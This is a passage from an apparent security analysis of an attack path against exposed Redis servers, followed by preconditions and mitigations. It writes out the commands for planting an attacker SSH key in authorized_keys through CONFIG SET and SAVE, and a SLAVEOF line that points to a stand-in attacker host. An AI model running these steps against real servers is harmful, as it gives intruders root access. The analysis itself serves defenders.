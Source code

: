     *   **`CONFIG SET` and SSH Key Overwrite (Older Redis, or if SSH is misconfigured):**
        *   The attacker uses `CONFIG SET dir /root/.ssh/` (or another user's `.ssh` directory).
        *   The attacker uses `CONFIG SET dbfilename authorized_keys`.
        *   The attacker sets a Redis key to their public SSH key: `SET mykey "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ..."`.
        *   The attacker uses `SAVE` to write the Redis database to disk, overwriting the `authorized_keys` file with their public key.
        *   The attacker can now SSH into the server as the target user.

    *   **`SLAVEOF` and Replication (Less reliable, but possible):**
        *   If the attacker can control a Redis instance, they can configure the target Redis instance to become a slave of their malicious instance using `SLAVEOF <attacker_ip> <attacker_port>`.
        *   The attacker can then push malicious data or configurations to the target instance, potentially leading to RCE.  This is less reliable than the `CONFIG SET` methods.

    *   **Lua Scripting (Limited, but can be used for data exfiltration or DoS):**
        *   Redis allows execution of Lua scripts.  While Lua itself is sandboxed, an attacker could potentially use it to exfiltrate data or cause a denial-of-service by consuming resources.  RCE is less likely through Lua alone, but it could be a component of a larger attack.

**2.3 Precondition Analysis**

For the attack to succeed, the following preconditions must generally be met:

*   **Network Accessibility:** The Redis instance must be reachable from the attacker's machine.  This could be due to:
    *   The Redis instance being exposed to the public internet.
    *   The attacker being on the same internal network as the Redis instance.
    *   The attacker having compromised a machine on the same network as the Redis instance.
*   **Lack of (or Weak) Authentication:**  Either no password is set, or a weak, easily guessable password is used.
*   **Vulnerable Configuration:**
    *   `protected-mode` is disabled, and no password is set.
    *   `bind` directive is set to `0.0.0.0` (or a non-loopback address) without proper firewall rules.
    *   Dangerous commands like `CONFIG SET` are not disabled or renamed.
*   **(For Module Loading):** Redis version 4.0 or later.  Write access to a directory on the server.
*   **(For SSH Key Overwrite):**  Write access to a user's `.ssh` directory.  SSH is configured to allow key-based authentication.
*   **(For `SLAVEOF`):** The attacker controls a Redis instance.  The target instance allows connections from the attacker's instance.

**2.4 Mitigation Strategy Development**

To mitigate this attack path, implement the following measures:

1.  **Require Strong Authentication:**
    *   **Always** set a strong, complex password using the `requirepass` directive in `redis.conf`.  Use a password manager to generate and store this password.
    *   Consider using a password that is *not* used for any other service.
    *   Regularly rotate the Redis password.

2.  **Restrict Network Access:**
    *   **Firewall:** Use a firewall (e.g., `iptables`, `ufw`, cloud provider firewalls) to *strictly* limit access to the Redis port (6379).  Only allow connections from trusted IP addresses or networks.  *Never* expose Redis directly to the public internet unless absolutely necessary, and then only with extreme caution and additional security measures.
    *   **`bind` Directive:**  In `redis.conf`, set the `bind` directive to the specific IP address of the interface that should be used to access Redis.  If Redis only needs to be accessed locally, bind it to `127.0.0.1`.  Avoid using `0.0.0.0`.
    *   **VPN/SSH Tunnel:** If remote access is required, use a VPN or SSH tunnel to securely connect to the Redis instance, rather than exposing it directly.
